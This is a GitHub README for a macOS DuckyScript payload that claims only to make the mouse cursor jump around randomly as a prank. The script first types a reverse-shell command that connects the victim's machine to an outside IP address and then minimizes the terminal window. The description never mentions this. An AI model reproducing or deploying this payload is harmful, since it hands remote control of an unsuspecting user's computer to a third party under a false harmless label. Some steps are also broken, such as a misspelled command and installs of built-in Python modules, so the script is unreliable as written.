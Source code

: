 # Mouse-Chaos-Payload-MacOS
DuckyScript that causes the virtual mouse of a computer to go hay-wire on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
Author: samamsa7

## DuckyScript Code
<code><pre>DELAY 75
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.7/87 0>&1
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
DELAY 50
STRING pip3 install pyautogui
DELAY 500
DELAY 50
STRING pip3 install time
DELAY 550
STRING pip3 install random
DEALY 550
STRING nano payload.py
DELAY 50
STRING import pyautogui
DELAY 10
ENTER
DELAY 10
STRING import random
DELAY 10
ENTER
DELAY 10
STRING import time
DELAY 10
ENTER
DELAY 10
STRING while True:
DELAY 10
ENTER
DELAY 10
STRING    x = random.randint(0, pyautogui.size().width)
DELAY 10
ENTER
DELAY 10
STRING    y = random.randint(0, pyautogui.size().height)
DELAY 10
ENTER
DELAY 10
STRING   pyautogui.moveTo(x, y)
DELAY 10
ENTER
DELAY 10
STRING    time.sleep(0.01)
DELAY 10
CTRL X
DELAY 10
STRING y
DELAY 10
ENTER
DELAY 10
STRING python3 payload.py
DELAY 10
ENTER
DELAY 10
COMMAND M
</code></pre>
